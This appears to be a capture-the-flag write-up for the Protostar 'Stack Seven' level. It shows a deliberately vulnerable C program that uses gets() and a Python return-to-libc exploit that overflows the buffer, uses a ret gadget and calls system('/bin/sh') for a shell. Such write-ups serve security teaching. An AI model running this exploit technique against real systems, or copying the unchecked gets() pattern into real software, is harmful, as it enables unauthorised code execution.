

# Stack Seven

## Discription

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Eploit code

```python
from struct import pack

payload =  "A"*80
payload += pack("I", 0x08048553)    # gadget: ret
payload += pack("I", 0xb7ecffb0)    # addr `system` from libc
payload += pack("I", 0)             # fake ret addr after call `system`
payload += pack("I", 0xb7fb63bf)    # ptr -> `/bin/sh\x00`: set first argument for `system`
print(payload)
```

Level passed!

<p algin="center">
    
</p>